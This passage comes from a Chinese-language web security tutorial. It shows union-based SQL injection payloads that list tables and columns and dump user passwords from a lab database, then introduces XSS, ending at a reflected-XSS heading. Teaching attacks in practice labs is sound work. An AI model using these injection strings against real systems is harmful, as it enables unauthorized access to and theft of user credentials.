 后续我们在构建语句查询当前库的表单：构建 ?id=-1' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security') --+

![1575615258208](file://C:/Users/15749/AppData/Roaming/Typora/typora-user-images/1575615258208.png?lastModify=1575615863)

我在第3个位置插入我们的查询语句，就可以拿到当前的库中所有的表名，我们可以很容易的看到一个users表，我们就知道这个表里应该放着用户名的信息，我们便查这个表里面的列名：”?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),(select group_concat(table_name) from information_schema.tables where table_schema='security') -- +“

![1575615518506](file://C:/Users/15749/AppData/Roaming/Typora/typora-user-images/1575615518506.png?lastModify=1575615863)

然后我们继续查询我们的所有用户名的密码：”?id=-1' union select 1,(select group_concat(password) from security.users),(select group_concat(table_name) from information_schema.tables where table_schema='security') -- +“ 结果如下：

![1575616027133](C:\Users\15749\AppData\Roaming\Typora\typora-user-images\1575616027133.png)

到这里我们就算是完整的把我们的基本数字注入解决，后面还有各种各样的注入需要大家学习。



## XSS

### xss介绍

XSS攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java、 VBScript、ActiveX、 Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。人们经常将跨站脚本攻击（Cross Site Scripting）缩写为CSS，但这会与层叠样式表（Cascading Style Sheets，CSS）的缩写混淆。因此，有人将跨站脚本攻击缩写为XSS。
跨站脚本攻击（XSS），是目前最普遍的Web应用安全漏洞。这类漏洞能够使得攻击者嵌入恶意脚本代码到正常用户会访问到的页面中，当正常用户访问该页面时，则可导致嵌入的恶意脚本代码的执行，从而达到恶意攻击用户的目的。
攻击者可以使用户在浏览器中执行其预定义的恶意脚本，其导致的危害可想而知，如劫持用户会话，插入恶意内容、重定向用户、使用恶意软件劫持用户浏览器、繁殖XSS蠕虫，甚至破坏网站、修改路由器配置信息等。
XSS漏洞可以追溯到上世纪90年代。大量的网站曾遭受XSS漏洞攻击或被发现此类漏洞，如Twitter、Facebook、MySpace、Orkut、新浪微博和百度贴吧。研究表明，最近几年XSS已经超过缓冲区溢出成为最流行的攻击方式，有68%的网站可能遭受此类攻击。根据开放网页应用安全计划（Open Web Application Security Project）公布的2010年统计数据，在Web安全威胁前10位中，XSS排名第2，仅次于代码注入 **-- 百度百科**

我们看了这个简介应该对xss有了一个基本的了解，我们在学习前先看一下下面的一些图片：
![在这里插入图片描述](https://images.gitbook.cn/acc2d020-17fb-11ea-84d3-57ca5dc6a412)




![在这里插入图片描述](https://images.gitbook.cn/b8ee0c20-17fb-11ea-940a-c9003ece094d)
![在这里插入图片描述](https://images.gitbook.cn/14b11b10-17fc-11ea-84d3-57ca5dc6a412)
![在这里插入图片描述](https://images.gitbook.cn/06573f40-17fc-11ea-89ee-473fea828180)

我们可以很清楚的发现我们的数字大小是由我们的h1和h2标签来定义的，那么我们的xss就是利用这些标签来达到我们攻击的目的，xss的产生归根到底是程序员在设计页面的时候并没有意识到我们的网页有没有过滤掉一些特殊的符号，从而让页面输出我们用户的恶意代码，xss分为3种，但是在我的理解中我觉得也就算两种--储存和反射型，从名字上我们就不难分辨出这两种的区别，一个是存储在某个地方，另外一个是实时反馈的，是的，我们的xss就是这两种的方式存在。(另外一种是Dom的形式)，接下来我就在DVWA中给大家看看xss的具体实现：

### xss具体反射型实现
